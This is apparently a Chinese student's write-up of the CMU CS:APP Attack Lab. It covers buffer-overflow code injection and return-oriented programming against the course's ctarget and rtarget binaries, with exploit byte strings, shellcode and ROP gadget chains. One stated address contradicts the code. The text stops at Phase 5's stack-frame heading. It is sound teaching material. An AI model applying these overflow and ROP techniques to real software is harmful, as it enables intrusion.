> 纸上得来终觉浅，绝知此事要躬行

# 实验概览

Attack！成为一名黑客不正是我小时候的梦想吗？这个实验一定会很有趣。

CMU 对本实验的官方说明文档：http://csapp.cs.cmu.edu/3e/attacklab.pdf，按照 CMU 的文档一步步往下走就可以了。



# Part 1: Code Injection Attacks

在第一部分中，我们要攻击的是`ctarget`。利用**缓冲区溢出**，就是程序的栈中分配某个字符数组来保存一个字符串，而我们输入的字符串可以包含一些可执行代码的字节编码或者一个指向攻击代码的指针覆盖返回地址。那么就能直接实现直接攻击或者在执行`ret`指令后跳转到攻击代码。

## Phase 1

### 分析

首先给了`test`函数的C语言代码：

```c
void test()
{
	int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

这个函数调用了`getbuf`函数，题目要求我们通过代码注入的方式使`getbuf`执行结束后不返回到`test`函数中，而是返回到`touch1`函数。

`touch1`的C语言代码如下：

```c
void touch1()
{
	vlevel = 1; /* Part of validation protocol */
	printf("Touch1!: You called touch1()\n");
	validate(1);
	exit(0);
}
```

### 反汇编`test`

```assembly
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    $0x8,%rsp
   0x000000000040196c <+4>:     mov    $0x0,%eax
   0x0000000000401971 <+9>:     callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:    mov    %eax,%edx
   0x0000000000401978 <+16>:    mov    $0x403188,%esi
   0x000000000040197d <+21>:    mov    $0x1,%edi
   0x0000000000401982 <+26>:    mov    $0x0,%eax
   0x0000000000401987 <+31>:    callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:    add    $0x8,%rsp
   0x0000000000401990 <+40>:    retq
End of assembler dump.
```

第2行分配栈帧，第4行调用`getbuf`函数

### 反汇编`getbuf`

```assembly
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
```

分配了40个字节的栈帧，随后将栈顶位置作为参数调用`Gets`函数，读入字符串。

此时，栈帧情况是这样的：（以8个字节为单位）



查到`touch1`代码地址为：`0x4017c0`

由此就有了思路，我们只需要输入41个字符，前40个字节将`getbuf`的栈空间填满，最后一个字节将返回值覆盖为`0x4017c0`即`touch1`的地址，这样，在`getbuf`执行`retq`指令后，程序就会跳转执行`touch1`函数。

### Solution

采用`Write up`推荐方法，创建一个`txt`文档存储输入。并按照`HEX2RAW`工具的说明，在每个字节间用空格或回车隔开。

**`x86`采用小端存储，要注意输入字节的顺序**

我们的输入为：

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

执行命令：

```bash
./hex2raw < ctarget01.txt | ./ctarget -q
```

- `./hex2raw < ctarget01.txt`是利用`hex2raw`工具将我们的输入看作字节级的十六进制表示进行转化，用来生成攻击字符串
- `|`表示管道，将转化后的输入文件作为`ctarget`的输入参数
- 由于执行程序会默认连接 CMU 的服务器，`-q`表示取消这一连接



**攻击成功！**

## Phase 2

### 分析

本题结构与上题相同，不同的是调用的`touch2`函数的内容：

```c
void touch2(unsigned val)
{
	vlevel = 2; /* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
		}
	exit(0);
}
```

不仅需要修改返回地址调用`touch2`函数，还需要把`cookie`作为参数传进去。题目建议我们不使用`jmp`和`call`指令进行代码跳转，也就是说，只能通过在栈中保存目标代码的地址，然后以`ret`的形式进行跳转。

**我们先深入理解`ret`指令：**

在CPU中有一个“PC”即程序寄存器，在 x86-64 中用`%rip`表示，它时刻指向将要执行的下一条指令在内存中的地址。而我们的`ret`指令就相当于：

```assembly
pop %rip
```

即把栈中存放的地址弹出作为下一条指令的地址。

于是，利用`push`和`ret`就能实现我们的指令转移啦！

思路如下：

- 首先，通过字符串输入把`caller`的栈中储存的返回地址改为注入代码的存放地址
- 然后，编写代码。我们的代码应该完成哪些工作呢？
  - 查看`cookie`值为`0x59b997fa`，先将第一个参数寄存器修改为该值
  - 在栈中压入`touch2`代码地址
  - `ret`指令调用返回地址也就是`touch2`

- 确定注入代码的地址。代码应该存在`getbuf`分配的栈中，地址为`getbuf`函数中的栈顶

### 注入代码

查到`touch2`代码地址为：`0x4017c0`，由上述思路，得代码如下：

```assembly
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

利用`gdb`在`getbuf`分配栈帧后打断点，查看栈顶指针的位置


`0x5561dc78`这就是我们应该修改的返回地址

### 栈帧讲解

按照我们的思路，输入字符串后的栈帧应该是这样的



逻辑如下：

- `getbuf`执行`ret`指令后，注入代码的地址从栈中弹出
- 程序执行我们编写的代码，当再次执行`ret`后，从栈中弹出的就是我们压入的`touch2`函数的地址，成功跳转

### Solution

先将我们的汇编代码保存到一个`.s`文件中，接下来利用如下指令

```bash
gcc -c injectcode.s
objdump -d injectcode.o > injectcode.d
```

得到字节级表示

```assembly
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

将这段代码放到40个字节中的开头，代码地址放到末尾。于是就得到我们的输入为：

```bash
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```



**攻击成功！**

## Phase 3

### 分析

本题与上题类似，不同点在于传的参数是一个字符串。先给出`touch3`的C语言代码

```c
void touch3(char *sval)
{
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
```

`touch3`中调用了`hexmatch`，它的C语言代码为：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
	char cbuf[110];
    /* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
```

也就是说，我们要把`cookie`转换成对应的字符串传进去

注意第6行，`s`的位置是随机的，我们写在`getbuf`栈中的字符串很有可能被覆盖，一旦被覆盖就无法正常比较。

因此，考虑把`cookie`的字符串数据存在`test`的栈上，其它部分与上题相同，这里不再重复思路。

### 注入代码

先查找`test`栈顶指针的位置：



`0x5561dca8`，这就是我们字符串存放的位置，也是调用`touch3`应该传入的参数，又`touch3`代码的地址为`4018fa`。从而得到代码：

```assembly
movq    $0x5561dca8, %rdi
pushq   $0x4018fa
ret
```

字节级表示为：

```assembly
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```

### 栈帧讲解

我们期望的栈帧应该是这样的：



逻辑如下：

- `getbuf`执行`ret`，从栈中弹出返回地址，跳转到我们注入的代码
- 代码执行，先将存在`caller`的栈中的字符串传给参数寄存器`%rdi`，再将`touch3`的地址压入栈中
- 代码执行`ret`，从栈中弹出`touch3`指令，成功跳转

### Solution

我们的cookie`0x59b997fa`作为字符串转换为`ASCII`为：`35 39 62 39 39 37 66 61`

注入代码段的地址与上题一样，同样为``0x5561dc78``

由于在`test`栈帧中多利用了一个字节存放cookie，所以本题要输入56个字节。注入代码的字节表示放在开头，33-40个字节放置注入代码的地址用来覆盖返回地址，最后八个字节存放cookie的`ASCII` 。于是得到如下输入：

```shell
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```



**攻击成功！**

`Part 1`就此完结啦！

# Part 2: Return-Oriented Programming

在第二部分中，我们要攻击的是`rtarget`，它的代码内容与第一部分基本相同，但是攻击它却比第一部分要难得多，主要是因为它采用了两种策略来对抗缓冲区溢出攻击

- 栈随机化。这段程序分配的栈的位置在每次运行时都是随机的，这就使我们无法确定在哪里插入代码
- 限制可执行代码区域。它限制栈上存放的代码是不可执行的。

看到这里，我不禁一头雾水，这下子该怎么攻击啊？

庆幸的是，文档也提供了攻击策略，即**ROP：面向返回的程序设计**，就是在已经存在的程序中找到特定的以`ret`结尾的指令序列为我们所用，称这样的代码段为`gadget`，把要用到部分的地址压入栈中，每次`ret`后又会取出一个新的`gadget`，于是这样就能形成一个程序链，实现我们的目的。**我喜欢将这种攻击方式称作“就地取材，拼凑代码”**。



同时，我们有如下指令编码表：



**举个例子：**

`rtarget`有这样一个函数：

```c
void setval_210(unsigned *p)
{
    *p = 3347663060U;
}
```

它的汇编代码字节级表示为：

```shell
0000000000400f15 <setval_210>:
	400f15: c7 07 d4 48 89 c7 	movl $0xc78948d4,(%rdi)
	400f1b: c3 					retq
```

查表可知，取其中一部分字节序列 48 89 c7 就表示指令`movq %rax, %rdi`，这整句指令的地址为`0x400f15`，于是从`0x400f18`开始的代码就可以变成下面这样：

```assembly
movq %rax, %rdi
ret
```

这个小片段就可以作为一个`gadget`为我们所用。

其它一些我们可以利用的代码都在文件`farm.c`中展示了出来

## Phase 4

### 分析

本题的任务与`Phase 2`相同，都是要求返回到`touch2`函数，`phase 2`中用到的注入代码为：

```assembly
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

我们根本不可能找到这种带特定立即数的`gadget`，只能思考其他办法。

首先，要做的是把 cookie 赋值给参数寄存器`%rdi`，考虑将 cookie 放在栈中，再用指令：

```assembly
pop %rdi
ret
```

就能实现参数的赋值了，当`ret`后，从栈中取出来的程序地址再设置为`touch2`的地址就能成功解决本题

但是后来发现在`farm`中找不到这条指令的`gadget`，经过多次尝试，只好用其他寄存器进行中转，考虑用两个`gadget`

```assembly
popq %rax
ret
###############
movq %rax, %rdi
ret
```

### 栈帧讲解

根据我们的思路，栈帧情况如下：



逻辑如下：

- `getbuf`执行`ret`，从栈中弹出返回地址，跳转到我们的`gardget01`
- `gadget01`执行，将`cookie`弹出，赋值给`%rax`，然后执行`ret`，继续弹出返回地址，跳转到`gardget2`
- `gardget2`执行，将`cookie`值成功赋值给参数寄存器`%rdi`，然后执行`ret`，继续弹出返回地址，跳转到`touch2`

### Solution

首要问题是找到我们需要的`gadget`

先用如下指令得到`target`的汇编代码及字节级表示

```assembly
objdump -d rtarget > rtarget.s
```

查表知，`pop %rax`用`58`表示，于是查找`58`

```assembly
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq                   retq
```

得到指令地址为`0x4019ab`

`movq %rax, %rdi`表示为`48 89 c7`，刚好能找到！其中 90 表示“空”，可以忽略

```assembly
00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3                      retq
```

得到指令地址为`0x4019c5`

根据上图的栈帧，就能写出我们的输入序列：

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```



**攻击成功！**

## Phase 5

先附上`Write up`中来自 CMU 官方的劝退：

>Before you take on the Phase 5, pause to consider what you have accomplished so far. In Phases 2 and 3, you caused a program to execute machine code of your own design. If CTARGET had been a network server, you could have injected your own code into a distant machine. In Phase 4, you circumvented two of the main devices modern systems use to thwart buffer overflow attacks. Although you did not inject your own code, you were able inject a type of program that operates by stitching together sequences of existing code. You have also gotten 95/100 points for the lab. That’s a good score. If you have other pressing obligations consider stopping right now. Phase 5 requires you to do an ROP attack on RTARGET to invoke function touch3 with a pointer to a string representation of your cookie. That may not seem significantly more difficult than using an ROP attack to invoke touch2, except that we have made it so. Moreover, Phase 5 counts for only 5 points, which is not a  true measure of the effort it will require. Think of it as more an extra credit problem for those who want to go beyond the normal expectations for the course.

现在是晚上 23:20，我本来已经头昏眼花准备就寝明日再战。但看到这段话，好家伙，不仅没把我劝退，还让我的困意一下子消失，精神振奋了起来。

**长缨已在手，缚住苍龙就在今日！**

### 分析

本题的任务与`Phase 3`相同，都是要求返回到`touch3`函数

`Phase 3`中用到的注入代码为：

```assembly
movq    $0x5561dca8, %rdi
pushq   $0x4018fa
ret
```

其中`0x5561dca8`是栈中`cookie`存放的地址。

而在本题中，栈的位置是随机的，把`cookie`存放在栈中似乎不太现实，但是我们又不得不这样做，那么有什么办法呢？只能在代码中获取`%rsp`的地址，然后根据偏移量来确定`cookie`的地址。想到这，思路就明晰了。

查表，`movq %rsp, xxx`表示为`48 89 xx`，查找一下有没有可用的`gadget`

```assembly
0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq
```

还真找到了，`48 89 e0`对应的汇编代码为

```assembly
movq %rsp, %rax
```

地址为：`0x401aad`

根据提示，有一个`gadget`一定要用上

```assembly
 00000000004019d6 <add_xy>:
   4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
   4019da:       c3                      retq
```

地址为：`0x4019d6`

通过合适的赋值，这段代码就能实现`%rsp`加上段内偏移地址来确定`cookie`的位置

剩下部分流程与`Phase 3`一致，大体思路如下：

- 先取得栈顶指针的位置
- 取出存在栈中得偏移量的值
- 通过`lea    (%rdi,%rsi,1),%rax`得到 cookie 的地址
- 将 cookie 的地址传给`%rdi`
- 调用`touch 3`

由于`gadget`的限制，中间的细节需要很多尝试，尝试过程不再一一列举了，我们直接给出代码

```assembly
#地址：0x401aad
movq %rsp, %rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret

#地址：0x4019cc
popq %rax
ret

#地址：0x4019dd
movl %eax, %edx
ret

#地址：0x401a70
movl %edx, %ecx
ret

#地址：0x401a13
movl %ecx, %esi
ret

#地址：0x4019d6
lea    (%rdi,%rsi,1),%rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret
```

### 栈帧讲解

